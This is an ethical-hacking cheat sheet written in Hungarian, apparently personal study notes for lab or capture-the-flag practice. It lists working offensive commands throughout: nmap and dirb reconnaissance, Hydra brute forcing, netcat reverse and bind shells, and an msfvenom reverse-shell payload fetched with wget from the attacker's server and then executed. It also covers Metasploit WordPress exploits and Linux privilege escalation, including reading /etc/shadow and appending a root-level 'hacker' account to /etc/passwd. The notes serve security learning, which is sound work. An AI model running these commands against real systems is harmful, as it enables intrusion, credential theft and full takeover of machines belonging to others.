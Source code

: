 # Etikus hackelés jegyzet, enyém amugy de feljavított by ChatGPT

## Nmap - Portszkennelés

- A legtöbb gyakorlatban minden érdekes port benne van az Nmap alapértelmezett 1000 leggyakoribb port listájában, ezért nem szükséges megadni a `-p` kapcsolót.
- Alapértelmezett szkennelés:

```bash
ping <célszerver IP>
nmap -sS -sV <célszerver IP>
```

- `-sS`: TCP SYN szkennelés  
- `-sV`: Szolgáltatásverzió felismerés

---

## HTTP Protokoll és Webes Feltérképezés

- Weboldal elérése böngészőből: `http://<ip>`

### Almappák keresése

- **Dirb (CLI)**

```bash
dirb http://<ip> -r -U <felhasználónév>:<jelszó>
```

- **DirBuster (GUI)**

### Szólisták

- Felhasználónevekhez:  
  `/usr/share/wordlists/dirb/common.txt`

- Jelszavakhoz (Hydra):  
  `rockyou.txt`

---

## Hydra – Brute Force Jelszótörés

```bash
hydra -l <username> -P <jelszólista> <ip> http-get
```

---

## Reverse / Bind Shell Technika

### Reverse Shell

1. Válassz egy portot: `1024 < x < 65000` (pl. 4444)
2. Saját IP lekérése: `ip a`
3. Shellkód generálása: IP és port beégetése
4. Shellkód eljuttatása a célgépre
5. Listener indítása saját gépen:

```bash
nc -lvnp 4444
```

6. Shellkód futtatása a célgépen → kapcsolat létrejön

### Bind Shell

1. Port kiválasztása ✔  
2. Cél IP ismerete  
3. Shellkód generálás ✔  
4. Kód eljuttatása ✔  
5. Ugrás a következő pontra  
6. Kapcsolódás a cél gépen lévő listenerhez:

```bash
nc <cél IP> <port>
```

---

## Netcat Opciók

- `-l`: listen mód  
- `-v`: verbose  
- `-n`: numeric IP, nincs DNS feloldás  
- `-p`: port megadása

---

## Stabilabb Shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

---

## CMD Shell Támadás

- Olyan fájl vagy input mező sebezhető, ahol a célgép kódfuttatást enged.

### Példa: ELF fájl futtatása

1. Támadó oldalon generáljuk a shellt:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<támadó IP> LPORT=4444 -f elf > shell.elf
```

2. Listener indítása:

```bash
nc -lvp 4444
```

3. HTTP szerver indítása:

```bash
python3 -m http.server
```

4. Célgépen shell futtatása:

```bash
cd /tmp
rm -f shell.elf
wget http://<támadó IP>:8000/shell.elf
chmod +x shell.elf
./shell.elf
```

---

## WordPress

- WPScan:

```bash
wpscan --url http://<url> -e at,ap,u --usernames <user> --passwords <passwordlist>
```

- Exploit keresés:

```bash
msfconsole
search wordpress
use <exploit_id>
set options
run
```

---

## Exploit Adatbázis

- https://exploit-db.com

---

## Linux Privilege Escalation

### 1. SUID Bitek keresése

```bash
find / -perm -u=s 2>/dev/null
```

- GTFObins segítségével nézd meg, mire használható a bináris.  
  https://gtfobins.github.io

### 2. SSH Privát Kulcsok

- Ellenőrizd:  
  `/home/<user>/.ssh/`

Sima felhasználónév jelszó:
```ssh -p port usernev@ip```

Privát RSA kulccsal belépés ha megvan:
```ssh -p port -i <privkulcs elérhetőség>```

### 3. Sudo jogosultságok megnézése a current userre

```bash
sudo -l
```

### 4. /etc/passwd és /etc/shadow jogai

```cat```-eljük ki őket, nézzük meg.

- Fájl jogosultságok ellenőrzése:

```bash
getfacl <fájlnév>
```

- Hash törés:  
  `john` vagy `hashcat`

### 5. Python Library Hijacking

- Ha a célgépen a script saját mappából importál, akkor saját `random.py` fájl létrehozásával tetszőleges kódot futtathatunk.

---

## Felhasználóváltás

```bash
su <user>
sudo -u <user> <parancs>
```

---

## /etc/passwd manipulálása

Ha van írási jogunk:

```bash
openssl passwd -5 korte
# kimenet: $5$...
```

Majd:

```bash
echo 'hacker:$5$...:0:0:root:/root:/bin/bash' >> /etc/passwd
```

---

## LinPEAS

- Automatikus sebezhetőségvizsgáló eszköz:  
  https://github.com/carlospolop/PEASS-ng

---

## /etc/hosts manipulálása

Először
```bash
sudo nano /etc/hosts
```
majd <ip> <local domain> beillesztése, és mentés.

---
## BurpSuit

```burpsuite``` parancs a futtatásra

---
